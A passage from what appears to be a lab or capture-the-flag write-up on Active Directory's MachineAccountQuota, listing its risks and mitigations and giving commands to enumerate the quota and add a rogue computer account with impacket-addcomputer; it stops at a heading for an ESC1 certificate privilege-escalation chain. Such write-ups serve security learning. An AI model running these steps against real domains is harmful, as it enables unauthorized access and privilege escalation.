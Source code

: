 2.  **Security Implications**:

    -   Attackers can potentially add rogue machines to a domain, which may be used for privilege escalation or lateral movement.
        -   Think Resource Based Constrained Delegation attacks:

    <!--listend-->

    -   Each computer account could potentially be used for lateral movement or persistence.
    -   Rogue computer accounts can be leveraged for relay attacks or resource access

3.  **Mitigation Strategies**:
    -   Reduce the MAQ value to 0 for enhanced security
    -   Implement a formal process for adding computers to the domain
    -   Monitor computer account creation events ([Event ID 4741](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4741))
    -   Regularly audit computer accounts for suspicious entries
    -   How to Modify MAQ using AD cmdlet:
        -   `Set-ADDomain -Identity yourdomain.com -Replace @{"ms-DS-MachineAccountQuota"="0"}`


#### How to enumerate MAQ value: {#how-to-enumerate-maq-value}

-   **Using** `ldap`:
    -   `dsquery * "DC=domain,DC=com" -scope base -attr ms-DS-MachineAccountQuota`
    -   {{< figure src="/ox-hugo/2024-10-24-161300_.png" >}}
    -   +Note+: As we can see we can add 10 machines as expected.

-   **Using** `netexec`:
    -   `netexec ldap $box -u $user -p $pass -M maq`
    -   {{< figure src="/ox-hugo/2024-10-24-161632_.png" >}}

-   **Using AD Powershell Module**:
    -   `Get-ADDomain | Select-Object -ExpandProperty MaxComputers`
    -   +Note+: This system does not have the AD cmdlet available however I wanted to include it.


### Creating a computer with impacket-addcomputer: {#creating-a-computer-with-impacket-addcomputer}

-   As we know we can add a computer we can use impacket-addcomputer to do it.
-   **Create the computer using Impacket**:
    -   `impacket-addcomputer -computer-name 'bloodstiller' -computer-pass 'b100dstill3r' -dc-ip $dcip $domain/svc_ldap`
    -   {{< figure src="/ox-hugo/2024-10-24-171459_.png" >}}

-   **I verify the computer was made using PowerView**:
    -   `Get-AdComputer -identity bloodstiller`
    -   {{< figure src="/ox-hugo/2024-10-24-172524_.png" >}}
        -   **Note**: be patient, this can hang for a number of seconds!


### Using certipy-ad &amp; ESC1 Attack Chain to elevate privileges to Administrator: {#using-certipy-ad-and-esc1-attack-chain-to-elevate-privileges-to-administrator}
